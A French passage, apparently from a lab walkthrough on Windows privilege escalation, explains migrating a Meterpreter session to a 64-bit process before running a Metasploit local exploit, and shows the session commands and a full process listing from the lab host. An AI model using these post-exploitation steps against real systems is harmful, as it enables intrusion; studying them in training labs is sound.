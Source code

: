 Avant d'utiliser le module en question, nous devons sauter dans notre shell Meterpreter et migrer vers un processus 64 bits, sinon l'exploit ne fonctionnera pas. Nous aurions également pu choisir une charge utile x64 Meterpeter lors de l'étape `smb_delivery` .

Migration vers un processus 64 bits

```
msf6 post(multi/recon/local_exploit_suggester) > sessions -i 1

[*] Début de l'interaction avec 1...

meterpreter > getpid

PID actuel : 2268

meterpreter > ps

Liste des processus
============
  PID PPID Nom Arch Session Utilisateur Chemin
  --- ---- ---- ---- ------- ---- ----
  0 0 [Processus système]
  4 0 Système
  164 1800 VMwareUser.exe x86 2 WINLPE-2K8\htb-student C:\Program Files (x86)\VMware\VMware Tools\VMwareUser.exe
  244 2032 winlogon.exe
  260 4 smss.exe
  288 476 svchost.exe
  332 324 csrss.exe
  376 324 wininit.exe
  476 376 services.exe
  492 376 lsass.exe
  500 376 lsm.exe
  584 476 mscorsvw.exe
  600 476 svchost.exe
  616 476 msdtc.exe
  676 476 svchost.exe
  744 476 taskhost.exe x64 2 WINLPE-2K8\htb-student C:\Windows\System32\taskhost.exe
  756 1800 VMwareTray.exe x86 2 WINLPE-2K8\htb-student C:\Program Files (x86)\VMware\VMware Tools\VMwareTray.exe
  764 476 svchost.exe
  800 476 svchost.exe
  844 476 svchost.exe
  900 476 svchost.exe
  940 476 svchost.exe
  976 476 spoolsv.exe
  1012 476 sppsvc.exe
  1048 476 svchost.exe
  1112 476 VMwareService.exe
  1260 2460 powershell.exe x64 2 WINLPE-2K8\htb-student C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
  1408 2632 conhost.exe x64 2 WINLPE-2K8\htb-student C:\Windows\System32\conhost.exe
  1464 900 dwm.exe x64 2 WINLPE-2K8\htb-student C:\Windows\System32\dwm.exe
  1632 476 svchost.exe
  1672 600 WmiPrvSE.exe
  2140 2460 cmd.exe x64 2 WINLPE-2K8\htb-student C:\Windows\System32\cmd.exe
  2256 600 WmiPrvSE.exe
  2264 476 mscorsvw.exe
  2268 2628 rundll32.exe x86 2 WINLPE-2K8\htb-student C:\Windows\SysWOW64\rundll32.exe
  2460 2656 explorer.exe x64 2 WINLPE-2K8\htb-student C:\Windows\explorer.exe
  2632 2032 csrss.exe
  2796 2632 conhost.exe x64 2 WINLPE-2K8\htb-student C:\Windows\System32\conhost.exe
  2876 476 svchost.exe
  3048 476 svchost.exe

```